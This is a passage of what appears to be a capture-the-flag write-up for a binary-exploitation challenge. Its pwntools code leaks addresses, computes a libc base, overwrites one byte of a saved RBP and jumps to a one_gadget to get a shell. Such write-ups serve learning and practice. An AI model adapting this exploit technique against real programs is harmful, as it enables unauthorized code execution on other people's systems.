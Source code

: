 Now, receive the addresses:

```python
data = p.recvuntil('"').decode()
base_address = data[36:-1].split(' ')[0][1:-1]
libc_leak = int(data[36:-1].split(' ')[1][1:-1], base=16)
```

We can calculate the base libc address with:

```python
libc_base = libc_leak - libc.symbols["printf"]
```

Now, we now what byte we have to modify on that RBP address:

```python
to_change = int("0x" + base_address[-2:], base=16)
to_change =  bytes(chr(to_change), encoding="UTF-8")
```

Everything is ready. Let's send the base address we got so the RBP gets a real address when execute leave on the main function, our one_gadget first address with the libc base added and 16 Bs to fill the 0x20 bytes plus our final byte to change.

```python
one_gadget_1 = 0x4f3d5
p.send(p64(int(base_address, base=16)) + p64(libc_base + one_gadget_1) + bytes('B' * 16, encoding="UTF-8") + to_change)
p.interactive()
```

We send it and....
pwned!

![Mirror-execute](/./assets/imgs/mirror-final.png)
